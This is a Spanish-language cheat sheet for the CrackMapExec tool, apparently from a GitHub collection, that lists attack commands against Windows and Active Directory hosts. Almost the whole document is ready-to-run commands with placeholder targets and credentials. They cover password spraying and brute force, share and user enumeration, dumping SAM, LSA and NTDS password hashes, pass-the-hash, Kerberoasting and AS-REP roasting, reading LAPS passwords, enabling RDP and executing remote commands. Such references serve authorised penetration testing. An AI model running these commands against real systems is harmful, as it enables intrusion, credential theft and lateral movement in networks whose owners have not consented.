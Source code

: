 # CrackMapExec Cheat Sheet

#### Listar equipos dentro de la red de un AD
```
crackmapexec smb 192.168.1.0/24
```

#### SMB con credenciales a dominio WORKGROUP
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' -d WORKGROUP
```

#### Password Spraying
```
crackmapexec smb 192.168.1.0/24 -u '<USERNAME>' -p listpassword.txt
```

#### Spraying Attack con usuario y contraseña lineal
```
crackmapexec smb <IP-Address> -u users.txt -p passwd.txt --no-bruteforce --continue-on-success
```

#### Spraying Attack
```
crackmapexec smb <IP-Address> -u users.txt -p '<PASSWORD>' --continue-on-success
```

#### Conocer en que equipos se puede autenticar especificando un usuario y password
```
crackmapexec smb 192.168.1.0/24 -u '<USERNAME>' -p '<PASSWORD>'
```

#### Enumeración de directorios compartidos SMB con NULL session
```
crackmapexec smb <IP-Address> -u 'null' -p ' ' --shares
```

#### Mostrar el contenido de un directorio compartido en SMB con credenciales
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --spider <DIRECTORY-NAME> --regex .
```

#### Mostrar el contenido de un directorio compartido en SMB con credenciales
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --spider <DIRECTORY-NAME> --pattern .
```

#### Descargar un archivo de un directorio compartido
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --share <DIRECTORY-NAME> --get-file <FIEL-NAME> <OUTPUT-NAME>
```

#### Enumerar usuarios por Brute Force por RID
```
crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```

#### Dumping Hashes SAM
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --sam
```

#### Dumping Hashes NTLM
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --ntds
```

#### Dumpear Hashes LSA
```
crackmapexec smb <IP-Address> -u 'Administrator' -p '<PASSWORD>' --lsa
```

#### Dumpear Hashes NTD
```
crackmapexec smb <IP-Address> -u 'Administrator' -H '<HASH-NT>' --ntds vss
```

#### PassTheHash
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' --local-auth
```

#### LAPS
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --laps
```

#### Fuerza bruta para Autenticación a Kerberos
```
crackmapexec smb <IP-Address> -u users.txt -p '' --kerberos
```

#### Ataque de Kerberoasting
```
crackmapexec ldap <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --kerberoasting <OUTPUT-FILE>
```

#### Ataque de Asreproast
```
crackmapexec ldap <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' --asreproast <OUTPUT-FILE>
```

#### Habilitar RDP con usuario y password de Administrador
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -p '<PASSWORD>' -M rdp -o action=enable
```

#### Ejecutar comandos usando el Hash
```
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' -d <GROUP> -x 'COMMAND'
crackmapexec smb <IP-Address> -u '<USERNAME>' -H '<HASH>' -d <GROUP> -X 'COMMAND'
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)